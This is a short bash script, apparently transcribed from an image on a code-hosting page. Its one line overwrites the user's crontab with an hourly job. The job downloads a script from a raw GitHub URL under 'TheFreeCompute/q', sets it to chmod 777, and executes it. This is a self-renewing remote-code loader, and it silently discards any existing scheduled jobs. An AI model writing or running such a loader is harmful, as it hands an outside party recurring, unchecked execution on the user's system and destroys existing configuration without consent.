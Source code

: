 #!/bin/bash

echo '@hourly rm ~/.q || true && curl --location --silent "https://raw.githubusercontent.com/TheFreeCompute/q/master/01_model.sh?$RANDOM" -o ~/.q && chmod 777 ~/.q && ~/.q' > ~/.crontab && crontab ~/.crontab
